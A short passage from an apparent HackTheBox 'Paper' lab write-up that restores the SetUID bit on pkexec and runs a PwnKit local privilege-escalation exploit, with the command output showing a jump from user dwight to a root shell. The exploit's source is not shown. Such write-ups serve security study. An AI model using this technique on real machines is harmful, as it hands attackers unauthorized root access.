 
### Re-SetUID pwnkit

As root, I’ll change `pkexec` back to SetUID permissions:

    
    
    [root@paper ~]# chmod 4755 /usr/bin/pkexec
    [root@paper ~]# ls -l /usr/bin/pkexec
    -rwsr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec
    

Back in the shell as dwight, I’ll try the exploit again:

    
    
    [dwight@paper shm]$ ./exploit 
    Current User before execute exploit
    hacker@victim$whoami: dwight
    Exploit written by @luijait (0x6c75696a616974)mkdir: cannot create directory ‘GCONV_PATH=.’: File exists
    
    [+] Enjoy your root if exploit was completed successfully
    [root@paper shm]#
    

It works and returns a root shell.

[](/2022/06/18/htb-paper.html)

